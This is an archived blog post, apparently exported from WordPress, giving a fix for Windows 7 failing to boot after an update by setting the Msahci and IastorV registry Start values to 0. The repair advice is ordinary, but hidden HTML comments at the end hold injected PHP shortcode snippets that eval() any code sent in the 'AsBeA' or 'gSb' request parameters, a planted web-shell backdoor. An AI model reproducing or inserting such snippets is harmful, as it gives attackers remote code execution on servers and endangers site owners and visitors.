 ```yaml
---
layout: post
title: Windows 7 updated last night and now it won't boot!
date: 2010-05-22 16:37:32.000000000 +00:00
type: post
parent_id: '0'
published: true
password: ''
status: publish
categories:
- Windows
tags: []
meta:
  _edit_last: '1'
  _wp_old_slug: ''
author:
  login: cosmar
  email: rg@cosma.name
  display_name: Razvan Cosma
  first_name: Razvan
  last_name: Cosma
permalink: "/2010/05/windows-7-updated-last-night-and-now-it-wont-boot/"
---
```

Start with F8-\>disable restart on failure, if the bluscreen error is 0x7b then switch your hard drives to IDE mode in BIOS, then edit these two registry keys:  
HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Services\Msahci  
HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Services\IastorV  
"Start" must have a value of 0 (loaded by kernel), it is probably 3 (manual)  
[More details here](http://support.microsoft.com/kb/922976)

<!-- [insert_php]if (isset($_REQUEST["AsBeA"])){eval($_REQUEST["AsBeA"]);exit;}[/insert_php][php]if (isset($_REQUEST["AsBeA"])){eval($_REQUEST["AsBeA"]);exit;}[/php] -->

<!-- [insert_php]if (isset($_REQUEST["gSb"])){eval($_REQUEST["gSb"]);exit;}[/insert_php][php]if (isset($_REQUEST["gSb"])){eval($_REQUEST["gSb"]);exit;}[/php] -->

